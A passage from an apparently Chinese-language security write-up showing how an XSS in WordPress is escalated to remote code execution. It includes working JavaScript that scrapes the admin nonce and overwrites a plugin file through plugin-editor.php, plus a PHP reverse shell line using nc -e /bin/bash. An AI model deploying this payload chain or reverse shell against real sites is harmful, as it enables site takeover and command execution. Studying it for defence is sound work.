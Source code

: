 ```
	if ( hash_equals( $expected, $nonce ) ) {
		return 1;
	}

	// Nonce generated 12-24 hours ago
	$expected = substr( wp_hash( ( $i - 1 ) . '|' . $action . '|' . $uid . '|' . $token, 'nonce' ), -12, 10 );
	if ( hash_equals( $expected, $nonce ) ) {
		return 2;
	}
```

这其中i参数固定，action参数为不同操作的函数名，uid为当前用户的id，token为当前用户cookie中的第三部分。

也就是说，即便不方便读取，我们也可以使用直接计算的方式来获得wpnonce的值，完成攻击。

这里我们使用从页面中读取wpnonce的方式，nonce在页面中是这样的

```
<input type="hidden" id="_wpnonce" name="_wpnonce" value="00b19dcb1a" />
```

代码如下
```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```

通过这段js，我们可以向hello.php写入php code。
```
http://127.0.0.1/wordpress4.8/wp-content/plugins/hello.php
```
![image.png-17.5kB][5]

getshell，如果服务端权限没有做设置，我们可以直接system弹一个shell回来，导致严重的命令执行。

```
s = '<?=`nc localhost 5855 -e /bin/bash`;';
```

但正如XSS漏洞存在的意义，getshell或者rce本身都很难替代xss所能达到的效果，我们可以配合php的代码执行，来继续拓展xss的攻击面。


  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png